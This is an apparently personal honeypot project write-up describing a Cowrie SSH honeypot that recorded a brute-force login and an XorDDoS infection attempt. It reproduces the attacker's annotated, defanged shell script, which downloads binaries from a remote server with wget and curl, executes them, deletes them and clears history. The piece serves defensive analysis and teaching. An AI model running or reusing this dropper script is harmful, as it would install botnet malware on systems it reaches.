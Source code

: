 ```yaml
---
layout: default
---
```

### [Home](../../index.md) | [Projects](../index.md)

# Cowrie & The Infrastructure Used

Cowrie is a honeypot designed to log brute-force attacks and attacker shell interactions. It supports ingesting logs into various log aggregation services. Since I have extensive experience with SQL, I chose to store its logs in a MySQL database.

### Infrastructure:

- Azure Virtual Machine
 - Linux (Ubuntu Server 24.04)
  - Services:
   - Cowrie (Honeypot)
   - MySQL (Log Storage)
   
 ## Running Cowrie
 
 I ran Cowrie for just half a day, and even in that short time, I observed some very interesting and suspicious behavior. Almost immediately, I started seeing clear signs of brute-force attacks.
 
![Brute Force Start](project_images/sql_bf.png)
 
From this image, we can see an attack originating from **218.92.0.186**. Other random IPs also appear from time to time, which we will discuss later.

To see the full extent of this brute-force attack, you can review the .csv file [here](project_files/auth_ip.csv).

We can see that the brute-force attack started at _12:40:02_ from IP **218.92.0.186**. The attacker successfully gained access to the system at _15:08:35_, meaning it took them a little over two hours to guess the correct password—**root**.

![Brute Force Success](project_images/bf_success.png)

It appears that the attacker used **218.92.0.186** to carry out the brute-force attack and, once successful, handed access over to **218.92.0.131**, likely to handle malware delivery.

#### Here is a report from _VirusTotal_ on both IPs:

*	[218.92.0.186](https://www.virustotal.com/gui/ip-address/218.92.0.186)
*	[218.92.0.131](https://www.virustotal.com/gui/ip-address/218.92.0.131)

Now that the attacker is inside our Honeypot we can track every command they run.

![Malware Delivery](project_images/inputs.png)

From this image we can clearly see the attacker ran a script and downloaded something from another IP using _wget_ and _curl_, lets break this command down. 

```
#!/bin/sh
PATH=$PATH:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin; # Ensures standard system paths are included in the script’s environment. 
wget hxxp[://]43[.]249[.]172[.]195:888/112;  # Downloads the file "112" using wget.
curl -O hxxp[://]43[.]249[.]172[.]195:888/112;  # Downloads the same file using curl, ensuring it keeps the original filename.
chmod +x 112;  # Makes "112" executable.
./112;  # Executes "112".
wget hxxp[://]43[.]249[.]172[.]195:888/112s;  # Downloads another file named "112s" from the same server.
curl -O hxxp[://]43[.]249[.]172[.]195:888/112s;  # Downloads "112s" while preserving its name.
chmod +x 112s;  # Makes "112s" executable.
./112s;  # Executes "112s".
rm -rf 112.sh;  # Deletes "112.sh".
rm -rf 112;  # Deletes "112" after execution.
rm -rf 112s;  # Deletes "112s" after execution.
history -c  # Clears the shell history to erase evidence of the commands.

```

**Note:** I have defanged the IP of the malware-hosting server for safety.
It appears that the attacker runs both wget and curl, likely to ensure the download succeeds in case one of the utilities is unavailable on the system.

![Malware-Hosting Server](project_images/malware_host.png)

We can see the full report on the Malware-Hosting Server [here](https://www.virustotal.com/gui/ip-address/43.249.172.195).

## The Malware

We can see that the attacker downloaded something—but what?
Luckily for us, Cowrie has excellent logging and provides a SHA-256 hash of the downloaded file.

![SQL Hash](project_images/sql_shasum.png)

**SHA-256 Hash:** ea40ecec0b30982fbb1662e67f97f0e9d6f43d2d587f2f588525fae683abea73

Now that we have the hash, we can submit it to VirusTotal to analyze it and determine what kind of malware we’re dealing with.

![Virus Total Hash](project_images/virustotal_hash.png)

See the full report from _VirusTotal_ [here](https://www.virustotal.com/gui/file/ea40ecec0b30982fbb1662e67f97f0e9d6f43d2d587f2f588525fae683abea73)

## XorDDoS: The Malware Behind the Attack

From this report, we can see that this file is identified as a Trojan linked to XorDDos, a well known Linux malware strain used to launch DDoS attacks.

#### What is XorDDoS:

*	XorDDoS is a Linux-based malware that has been active since at least 2014.
*	It gets its name from its use of XOR-based encryption to obfuscate communication between infected machines and the command-and-control (C2) servers.
*	XorDDoS primarily targets Linux servers and IoT devices, turning them into botnets to launch massive DDoS attacks against websites and infrastructure.
*	Once inside, it downloads additional payloads, executes them, and then cleans up traces by deleting logs—exactly what we saw in our attack!

#### XorDDos Capabilities:

*	**Launching DDoS Attacks** – Uses infected machines to generate high-volume traffic aimed at bringing down targets.
*	**Persistence & Evasion** – It modifies system settings to survive reboots and evade detection.
*	**Backdoor Functionality** – Allows remote attackers to execute arbitrary commands on the compromised system.
*	**Obfuscation** – Uses XOR-based encryption to disguise network traffic.

#### What This Means for Our Honeypot:

*	The attacker brute-forced their way into our honeypot.
*	They quickly downloaded a XorDDoS variant and executed it.
* 	Their goal was likely to recruit our system into a botnet to launch DDoS attacks against other targets.
*	They also attempted to cover their tracks by deleting logs and clearing history.

#### Key Takeaways

*	Cowrie provided valuable insights into how attackers deliver and execute malware.
*	XorDDoS remains an active Linux threat, and honeypots like this help expose its tactics.

## Conclusion

This experiment with Cowrie provided a firsthand look at real-world SSH brute-force attacks and malware delivery techniques. By capturing and analyzing attacker activity, we uncovered how XorDDoS spreads and operates. This highlights the importance of strong authentication, monitoring logs, and proactive security measures to defend against such threats.

### Docs & Other Files
*	[Cowrie Docs](https://docs.cowrie.org/en/latest/)
*	[Cowrie GitHub](https://github.com/cowrie/cowrie)
*	[Project Images](project_images/)
*	[Project Files](project_files/)




### Contact
Sean McGovern

La Grange, North Carolina 

[Linkedin](https://www.linkedin.com/in/sean-mcgovern-310457272/) 












